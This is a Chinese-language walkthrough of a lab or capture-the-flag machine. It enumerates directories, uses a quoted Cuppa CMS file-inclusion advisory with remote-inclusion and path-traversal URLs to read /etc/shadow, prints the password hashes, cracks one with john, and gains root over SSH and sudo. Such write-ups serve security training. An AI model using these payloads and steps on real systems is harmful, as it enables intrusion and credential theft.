---- Entering directory: http://10.0.2.13:80/administrator/templates/default/html/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/administrator/templates/default/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/wordpress/wp-content/plugins/akismet/ ----
==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-content/plugins/akismet/_inc/
==> DIRECTORY: http://10.0.2.13:80/wordpress/wp-content/plugins/akismet/views/
---- Entering directory: http://10.0.2.13:80/wordpress/wp-content/plugins/akismet/_inc/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.2.13:80/wordpress/wp-content/plugins/akismet/views/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
-----------------
END_TIME: Tue Nov 4 09:04:41 2025
DOWNLOADED: 429618 - FOUND: 3
|
整理一下核心结果就是：
| ==> DIRECTORY: http://10.0.2.13:80/administrator/
==> DIRECTORY: http://10.0.2.13:80/javascript/
+ http://10.0.2.13:80/server-status (CODE:403|SIZE:297)
==> DIRECTORY: http://10.0.2.13:80/wordpress/
|
其中 /javascript 子页面没有有价值的内容，/wordpress 点明了这是一个 WordPress 框架（这个版本应该有很多漏洞）的项目，但是无法访问（会跳回 localhost）。所以主要看 /administrator 页面
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39 | ---- Scanning URL: http://10.0.2.13:80/administrator/ ----
==> DIRECTORY: http://10.0.2.13:80/administrator/alerts/
==> DIRECTORY: http://10.0.2.13:80/administrator/api/
==> DIRECTORY: http://10.0.2.13:80/administrator/classes/
==> DIRECTORY: http://10.0.2.13:80/administrator/components/
==> DIRECTORY: http://10.0.2.13:80/administrator/extensions/
==> DIRECTORY: http://10.0.2.13:80/administrator/installation/
==> DIRECTORY: http://10.0.2.13:80/administrator/js/
==> DIRECTORY: http://10.0.2.13:80/administrator/language/
==> DIRECTORY: http://10.0.2.13:80/administrator/media/
+ http://10.0.2.13:80/administrator/robots.txt (CODE:200|SIZE:26)
==> DIRECTORY: http://10.0.2.13:80/administrator/templates/
---- Entering directory: http://10.0.2.13:80/administrator/alerts/ ----
---- Entering directory: http://10.0.2.13:80/administrator/api/ ----
==> DIRECTORY: http://10.0.2.13:80/administrator/api/administrator/
==> DIRECTORY: http://10.0.2.13:80/administrator/api/test/
---- Entering directory: http://10.0.2.13:80/administrator/classes/ ----
==> DIRECTORY: http://10.0.2.13:80/administrator/classes/ajax/
---- Entering directory: http://10.0.2.13:80/administrator/components/ ----
==> DIRECTORY: http://10.0.2.13:80/administrator/components/configuration/
==> DIRECTORY: http://10.0.2.13:80/administrator/components/menu/
==> DIRECTORY: http://10.0.2.13:80/administrator/components/permissions/
==> DIRECTORY: http://10.0.2.13:80/administrator/components/stats/
---- Entering directory: http://10.0.2.13:80/administrator/extensions/ ----
==> DIRECTORY: http://10.0.2.13:80/administrator/extensions/banners/
==> DIRECTORY: http://10.0.2.13:80/administrator/extensions/content/
---- Entering directory: http://10.0.2.13:80/administrator/installation/ ----
==> DIRECTORY: http://10.0.2.13:80/administrator/installation/html/
---- Entering directory: http://10.0.2.13:80/administrator/js/ ----
==> DIRECTORY: http://10.0.2.13:80/administrator/js/filemanager/
==> DIRECTORY: http://10.0.2.13:80/administrator/js/jquery/
==> DIRECTORY: http://10.0.2.13:80/administrator/js/tiny_mce/
|
大致的信息收集完毕
访问
进入了 http://10.0.2.13:80/administrator/installation


注意第二张图片的页面的最下方，当鼠标放置在 [?] 处时，其内容出现在页面最下方
随意填写内容

进行下一步后发现 Error：

似乎没有头绪了，偶然发现页面 Title Cuppa CMS，在 Github 上搜一下，发现是真实存在的项目，而且似乎有 SQL 注入，文件上传导致远程代码执行，XSS 攻击等各种 Bug

用 searchsploit 搜了一下发现真能搜到漏洞
| > searchsploit cuppa
------------------------------------------------------------------ -----------------------
Exploit Title | Path
------------------------------------------------------------------ -----------------------
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion | php/webapps/25971.txt
------------------------------------------------------------------ -----------------------
Shellcodes: No Results
|
打开以后发现是个教程：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33 | ####################################
VULNERABILITY: PHP CODE INJECTION
####################################
/alerts/alertConfigField.php (LINE: 22)
-----------------------------------------------------------------------------
LINE 22:
<?php include($_REQUEST["urlConfig"]); ?>
-----------------------------------------------------------------------------
#####################################################
DESCRIPTION
#####################################################
An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.
http://target/cuppa/alerts/alertConfigField.php?urlConfig=[FI]
#####################################################
EXPLOIT
#####################################################
http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
Moreover, We could access Configuration.php source code via PHPStream
For Example:
-----------------------------------------------------------------------------
http://target/cuppa/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php
-----------------------------------------------------------------------------
|
是个文件包含漏洞，在 BurpSuite 上测试一下，把 GET 方法改成 POST：

爆率真的很高。
教程中提到了允许远程文件包含，一开始想着上传 php 一句话，但是尝试失败，于是直接尝试读取 /etc/shadow 的内容（从 /passwd 内容推测应该可以访问），找到两个有价值的：
| root:$6$vYcecPCy$JNbK.hr7HU72ifLxmjpIP9kTcx./ak2MM3lBs.Ouiu0mENav72TfQIs8h1jPm2rwRFqd87HDC0pi7gn9t7VgZ0:17554:0:99999:7:::
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
|
两个用户的哈希加密后的密码，john 进行爆破
| > john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
computer (w1r3s)
|
爆破出了 w1r3s 的密码（root 的没有），通过 SSH 登录
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38 | ssh w1r3s@10.0.2.13 ✔ 15:18:12
The authenticity of host '10.0.2.13 (10.0.2.13)' can't be established.
ED25519 key fingerprint is SHA256:Bue5VbUKeMSJMQdicmcMPTCv6xvD7I+20Ki8Um8gcWM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.13' (ED25519) to the list of known hosts.
----------------------
Think this is the way?
----------------------
Well,........possibly.
----------------------
w1r3s@10.0.2.13's password:
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.13.0-36-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
108 packages can be updated.
6 updates are security updates.
.....You made it huh?....
Last login: Mon Jan 22 22:47:27 2018 from 192.168.0.35
w1r3s@W1R3S:~$ id
uid=1000(w1r3s) gid=1000(w1r3s) groups=1000(w1r3s),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
w1r3s@W1R3S:~$ sudo -l
sudo: unable to resolve host W1R3S
[sudo] password for w1r3s:
Matching Defaults entries for w1r3s on W1R3S:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User w1r3s may run the following commands on W1R3S:
(ALL : ALL) ALL
w1r3s@W1R3S:~$ sudo su
sudo: unable to resolve host W1R3S
root@W1R3S:/home/w1r3s# id
uid=0(root) gid=0(root) groups=0(root)
|
发现这个用户自带 sudo 权限，于是直接获取 root shell
渗透结果
成功获得 root shell，拿到 home 目录下的 Flag

甚至可以打开靶机的 GUI 页面

{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}